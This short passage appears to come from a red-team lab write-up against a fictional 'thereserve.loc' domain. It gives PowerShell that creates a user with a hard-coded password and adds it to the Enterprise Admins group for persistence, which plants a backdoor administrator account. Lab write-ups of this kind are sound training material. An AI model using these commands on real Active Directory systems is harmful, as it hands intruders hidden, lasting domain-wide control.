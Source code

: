 In order to maintain persistence, and allowing us to login without creating tickets, we can create a new user and add it to Enterprise Admins group, using the following PowerShell code:


`$pwd = convertTo-SecureString Capstone1@ -AsPlainText -Force`

`New-ADUser -Name kairosroot -AccountPassword $pwd `

`$User = Get-ADUser -Identity kairosroot  -Server "corpdc.corp.thereserve.loc"`

`$Group = Get-ADGroup -Identity "Enterprise Admins" -Server "rootdc.thereserve.loc"`

`Add-ADGroupMember -Identity $Group -Members $User -Server "rootdc.thereserve.loc"`
